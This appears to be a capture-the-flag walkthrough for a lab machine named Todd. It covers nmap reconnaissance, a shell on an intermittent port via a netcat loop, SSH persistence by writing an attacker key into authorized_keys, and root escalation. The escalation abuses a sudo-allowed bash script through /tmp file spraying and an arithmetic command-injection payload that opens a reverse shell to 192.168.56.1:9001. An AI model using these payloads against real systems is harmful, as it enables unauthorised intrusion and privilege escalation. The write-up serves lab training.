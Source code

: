 ```yaml
---
title: 'Test'
description: 'How to get flags on Todd machine'
pubDate: 'June 12 2025'
heroImage: '../../../assets/commands.png'
---
```


## Reconnaissance

### Initial Nmap Scan
```bash
$ nmap -sV -sC -p- 192.168.56.3 -A

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
2519/tcp  open  tcpwrapped
4470/tcp  open  tcpwrapped
...
```

### Second Nmap Scan Reveals Interesting Port
```bash
$ nmap -sV -p- 192.168.56.3
-----------
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
7066/tcp  open  unknown
...
```

Note: Port 7066 appears intermittently.

## Initial Access via Port 7066

### Persistent Connection Attempt
```bash
$ while true;do nc 192.168.56.3 7066;done
(UNKNOWN) [192.168.56.3] 7066 (?) : Connection refused
(UNKNOWN) [192.168.56.3] 7066 (?) : Connection refused
whoami
todd
```

### Establishing SSH Access
1. Generate SSH key on attacker machine:
```bash
ssh-keygen -t rsa -f todd
```

2. On target machine:
```bash
mkdir -p /home/todd/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCOd2qBPt87qsYOMlBoxpn6uTqyKwHLIXcNj8eO.... void-strike@athena" > /home/todd/.ssh/authorized_keys
```

3. Connect via SSH:
```bash
ssh todd@192.168.56.3 -i ~/.ssh/todd
```

## Privilege Escalation

### Checking Sudo Privileges
```bash
$ sudo -l
Matching Defaults entries for todd on todd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User todd may run the following commands on todd:
    (ALL : ALL) NOPASSWD: /bin/bash /srv/guess_and_check.sh
    (ALL : ALL) NOPASSWD: /usr/bin/rm
    (ALL : ALL) NOPASSWD: /usr/sbin/reboot
```

### Analyzing guess_and_check.sh
```bash
# check this script used by human 
a=$((RANDOM%1000))
echo "Please Input [$a]"

echo "[+] Check this script used by human."
echo "[+] Please Input Correct Number:"
read -p ">>>" input_number

[[ $input_number -ne "$a" ]] && exit 1

sleep 0.2
true_file="/tmp/$((RANDOM%1000))"
sleep 1
false_file="/tmp/$((RANDOM%1000))"

[[ -f "$true_file" ]] && [[ ! -f "$false_file" ]] && cat /root/.cred || exit 2
```

### Method 1: File Creation Exploit
1. Create dummy files to increase probability:
```bash
for i in {1..600}; do touch /tmp/$i ;done
```

2. Run the script repeatedly until successful:
```bash
sudo /bin/bash /srv/guess_and_check.sh
```

### Method 2: Command Injection
1. Execute arbitrary commands through input:
```bash
Please Input [316]
[+] Check this script used by human.
[+] Please Input Correct Number:
>>>N[$(/bin/bash -i >& /dev/tcp/192.168.56.1/9001 0>&1)]
```

2. Set up listener:
```bash
nc -vlnp 9001
```

### Explanation of Command Injection
The input `N[$(cat /root/root.txt)]` is interpreted in an arithmetic context, causing Bash to attempt evaluating the flag contents as arithmetic, which fails and reveals the flag content in the error message.

## Root Access
Use the credentials from /root/.cred to switch to root:
```bash
su
Password: [content of /root/.cred]
root@todd:/home/todd#
```

Or via the reverse shell obtained through command injection.
